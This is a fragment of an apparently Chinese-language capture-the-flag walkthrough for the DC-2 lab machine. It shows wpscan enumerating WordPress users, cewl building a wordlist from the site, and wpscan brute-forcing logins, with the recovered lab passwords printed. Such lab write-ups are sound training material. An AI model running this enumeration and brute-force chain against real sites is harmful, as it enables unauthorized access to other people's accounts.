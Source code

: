 ```
```

枚举wordpress用户

```
┌──(root💀kali)-[~/Desktop]
└─# wpscan --url http://dc-2 --enumerate u

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <===============================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jerry
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

使用cewl抓取网站的密码单词

```
┌──(root💀kali)-[/tmp]
└─# cewl  http://dc-2 > password.txt
```

新建用户表

```
admin
jerry
tom
```

使用wpscan爆破用户密码

```
┌──(root💀kali)-[/tmp]
└─# wpscan --url http://dc-2 -U user.txt -P password.txt -t 50

[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```
